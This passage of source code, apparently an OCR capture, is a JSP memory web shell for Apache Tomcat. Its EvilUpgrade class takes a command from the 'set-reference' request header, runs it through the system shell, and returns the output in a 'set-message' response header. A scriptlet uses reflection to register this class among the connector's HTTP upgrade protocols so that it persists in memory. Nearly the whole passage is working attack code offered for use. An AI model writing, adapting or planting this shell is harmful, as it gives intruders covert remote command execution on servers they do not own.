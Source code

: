 ```jsp

    @Override
    public Processor getProcessor(SocketWrapperBase<?> socketWrapper, Adapter adapter) {
      return null;
    }

    @Override
    public InternalHttpUpgradeHandler getInternalUpgradeHandler(Adapter adapter, Request request) {
      return null;
    }

    @Override
    public boolean accept(Request request) {
      String cmd = request.getHeader("set-reference");
      try {
        if (cmd != null) {
          boolean isLinux = true;
          String osType = System.getProperty("os.name");
          if (osType != null && osType.toLowerCase().contains("win")) {
            isLinux = false;
          }

          String[] commands = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
          InputStream inputStream = Runtime.getRuntime().exec(commands).getInputStream();
          Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
          String output = scanner.hasNext() ? scanner.next() : "";

          Response response = (Response) getField(request, "response");
          response.addHeader("set-message", new String(output.getBytes(), StandardCharsets.UTF_8));
        }
      } catch (Exception e) {
        e.printStackTrace();
      }
      return false;
    }
  }

  public Object getField(Object obj, String field) {
    Class clazz = obj.getClass();
    while (clazz != Object.class) {
      try {
        Field declaredField = clazz.getDeclaredField(field);
        declaredField.setAccessible(true);
        return declaredField.get(obj);
      } catch (Exception e) {
        clazz = clazz.getSuperclass();
      }
    }
    return null;
  }
%>

<%
  Object request1 = getField(request, "request");
  Connector connector = (Connector) getField(request1, "connector");
  Http11NioProtocol protocolHandler = (Http11NioProtocol) getField(connector, "protocolHandler");
  HashMap httpUpgradeProtocols = (HashMap) getField(protocolHandler, "httpUpgradeProtocols");
  httpUpgradeProtocols.put("H3rmesk1t", new EvilUpgrade());
  response.getWriter().println("Upgrade Inject Successfully...");
%>
```
